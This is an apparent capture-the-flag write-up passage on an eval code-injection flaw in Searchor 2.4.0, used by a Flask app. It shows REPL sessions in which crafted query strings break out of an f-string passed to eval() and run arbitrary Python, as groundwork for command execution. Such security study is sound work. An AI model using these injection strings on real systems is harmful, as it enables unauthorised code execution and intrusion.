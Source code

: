 ```
Powered by Flask and Searchor 2.4.0
```

[https://github.com/ArjunSharda/Searchor](https://github.com/ArjunSharda/Searchor)  
[PR](https://github.com/ArjunSharda/Searchor/pull/130/files/29d5b1f28d29d6a282a5e860d456fab2df24a16b)  


```
git clone https://github.com/ArjunSharda/Searchor.git
```

Building the docker container to start experimenting with the library
```python
>>> from searchor import Engine
>>> engine="Youtube"
>>> query="hi"
>>> f"Engine.{engine}.search('{query}')"
"Engine.Youtube.search('hi')"
>>> eval(f"Engine.{engine}.search('{query}')")
'https://www.youtube.com/results?search_query=hi'
>>> query="'),dir(),print('"
>>> f"Engine.{engine}.search('{query}')"
"Engine.Youtube.search(''),dir(),print('')"
>>> eval(f"Engine.{engine}.search('{query}')")

('https://www.youtube.com/results?search_query=', ['Engine', '__annotations__', '__builtins__', '__doc__', '__loader__', '__name__', '__package__', '__spec__', 'engine', 'query'], None)
```

The older version didn't have the docker container, but no big deal, lets just make a virtual environment, and install the tool
```bash
git checkout b5e67ec
python3 -m venv venv
source venv/bin/activate
pip install .
```

We know the eval is beeing called whan using the cli like this:
```bash
searchor search Youtube 'hamsters'
https://www.youtube.com/results?search_query=hamsters
```

Playing around to get command execution
```python
>>> engine="Youtube"
>>> open=False
>>> copy=False
>>> query="'),dir(),Engine.Youtube.search('"
>>> f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
"Engine.Youtube.search(''),dir(),Engine.Youtube.search('', copy_url=False, open_web=False)"
>>> eval(f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})")
('https://www.youtube.com/results?search_query=', ['Engine', '__annotations__', '__builtins__', '__doc__', '__loader__', '__name__', '__package__', '__spec__', 'copy', 'engine', 'open', 'open_web', 'query'], 'https://www.youtube.com/results?search_query=')
```
